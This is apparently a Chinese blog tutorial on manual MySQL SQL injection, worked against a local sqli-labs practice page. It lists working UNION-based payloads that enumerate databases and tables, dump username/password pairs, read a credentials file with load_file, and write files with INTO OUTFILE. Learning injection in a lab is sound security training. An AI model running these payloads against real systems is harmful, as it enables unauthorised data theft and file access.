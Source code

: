 ```yaml
---
layout: post
title: "1.1.1-SQL注入-SQL注入基础-SQL手工注入方法"
date: 2018-06-11
category: web安全
tags: sql注入 
---
```

## MySQL手工注入
### 01 MySQL数据库结构

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/01.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/02.png)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/03.jpg)
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/04.png)

核心原理：  
MySql内置的infromation_schema库，它功能强大，是我们进行MySql注入的基石！  
![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/05.png)

	select schema_name from information_schema.schemata // 查库
	select table_name from information_schema.tables where table_schema=库名 // 查表
	select column_name from information_schema.columns where table_name=表名 // 查列
	select 列名 from 库名.表名 // 查数据
	
	
	select column_name from information_schema.columns where table_name=0x7573657273;
	
	
	![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/06.png)
	
	select group_concat(schema_name) from information_schema.schemata;
	select username,password from security.users limit 0,1;
	
---

### 02 MySQL手工注入方法

![](https://coding.net/u/tea9/p/image/git/raw/master/blog_img/03/07.jpg)

	http://127.0.0.1/Less-1/?id=2
	http://127.0.0.1/Less-1/?id=2' 注入点
	http://127.0.0.1/Less-1/?id=2' and '1'='1 正常
	http://127.0.0.1/Less-1/?id=2' and '1'='2 报错
	
	http://127.0.0.1/Less-1/?id=2' order by 3--+ 判断字段长度
	http://127.0.0.1/Less-1/?id=2' order by 4--+ 返回错误
	
	http://127.0.0.1/Less-1/?id=2' union select 1,2,3--+
	http://127.0.0.1/Less-1/?id=-1' union select 1,2,3--+ 判断数据显示位置
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(schema_name) from information_schema.schemata)--+ 提示more than 1 row 查询库名
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(table_name) from information_schema.table where table_schema=database())--+ 当前库
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select concat_ws('~',username,password) from security.users limit 0,1)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select concat_ws(0x7e,username,password) from security.users limit 0,1)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select group_concat(username,0x7e,password) from security.users)--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select database())--+
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select load_file('/var/www/html/sql-connections/db-creds.inc'))--+ 读文件
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select 'test' into outfile '/var/www/html/sql-connections/t.txt')--+ 写文件
	
	http://127.0.0.1/Less-1/?id=' union select 1,2,(select 'test' into outfile '/tmp/t.txt')--+ 写文件
	
	
	
http://127.0.0.1:90/Less-1/

	


